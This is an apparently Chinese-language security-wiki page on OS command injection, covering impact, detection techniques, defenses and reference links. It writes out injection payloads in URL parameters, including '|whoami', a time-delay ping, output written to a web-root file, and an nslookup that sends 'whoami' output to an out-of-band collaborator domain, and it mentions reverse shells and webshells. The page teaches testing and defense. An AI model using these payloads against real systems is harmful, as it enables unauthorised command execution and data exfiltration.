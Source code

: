 ```yaml
---
description: OWASP-TOP10 漏洞
---
```


# 😀 命令注入

## 介绍

命令注入漏洞是一种允许攻击者在运行应用程序的服务器上执行任意操作系统命令，攻击者通过会利用此漏洞来破坏基础设施的其他部分，利用信任关系将攻击转向组织内的其他系统

## 影响

根据应用程序运行的权限，造成不同的影响

## 攻击

### 1. 插入特殊字符来检测分割符

```shell
&
;
换行符 (0x0a or \n)
&&
|
||
```

```shell
# 正常的 HTTP 请求
https://vulnerable-website.com/endpoint?parameter=123

# payload
https://vulnerable-website.com/endpoint?parameter=1|whoami
```

### 2. 时间延迟

> 大多数操作系统命令注入都是盲注，不会为我们产生任何输出，我们可以使用时间延迟来验证命令注入

```shell
# ping -c 10 127.0.0.1
https://vulnerable-website.com/endpoint?parameter=x||ping+-c+10+127.0.0.1||
```

### 3. 重定向输出

> 我们可以将注入命令的输出重定向到 WEB 根目录的一个文件中，然后访问它

```shell
https://vulnerable-website.com/endpoint?parameter=12||whoami>/var/www/images/output.txt||
```

### 4. 使用 OAST 进行操作系统命令注入

**payload**：使用`Burp Collaborator Client`

```shell
注入点=x||nslookup+burpcollaborator.net||
```

payload

```shell
注入点=||nslookup+`whoami`.YOUR-SUBDOMAIN-HERE.burpcollaborator.net||
```

## 5. 获取 REVRSE SHELL

> 可以借助命令执行来获取 REVERSE SHELL ，也可以进行文件上传一些特殊页面，实现获取 SHELL

## 防御

> 到目前为止，防止操作系统命令注入漏洞的最有效方法是永远不要从应用层代码中调用操作系统命令。
>
> 在很多情况下，都有使用更安全的平台API实现所需功能的替代方法。

如果使用用户提供的输入向操作系统命令发出呼叫被认为是不可避免的，则必须执行强输入验证。有效验证的一些示例包括：

* 对准允许值的白名单进行验证。
* 验证输入是一个数字。
* 验证输入仅包含字母数字字符，没有其他语法或空白。

## 配合

### 1. 文件上传&命令注入

利用文件上传一些 WEBSHELL

&#x20;

## 参考文章

* [操作系统命令注入](https://portswigger.net/web-security/os-command-injection)
* [狼组安全团队公开知识库](https://wiki.wgpsec.org/knowledge/web/cmd\_injection.html)

## 提升

* [命令注入漏洞介绍-上](https://www.freebuf.com/articles/web/276503.html)
* [命令注入漏洞介绍-下](https://www.freebuf.com/articles/web/276505.html)
